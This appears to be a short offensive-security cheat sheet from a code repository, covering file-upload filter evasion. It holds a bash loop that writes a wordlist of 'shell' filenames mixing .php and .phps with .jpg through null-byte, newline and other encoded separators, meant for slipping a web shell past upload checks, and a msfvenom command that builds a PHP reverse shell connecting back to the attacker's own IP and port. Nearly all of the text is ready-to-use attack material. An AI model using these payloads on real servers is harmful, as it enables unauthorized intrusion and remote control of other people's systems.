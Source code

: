 
#### Extension_fuzzer.sh

This creates a wordlist of different extention combonations for double extensions

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell.$char$ext.jpg" >> wordlist.txt
        echo "shell.$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

```


#### MSFVenom Reverse PHP

PHP Reverse Shell
```PHP
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
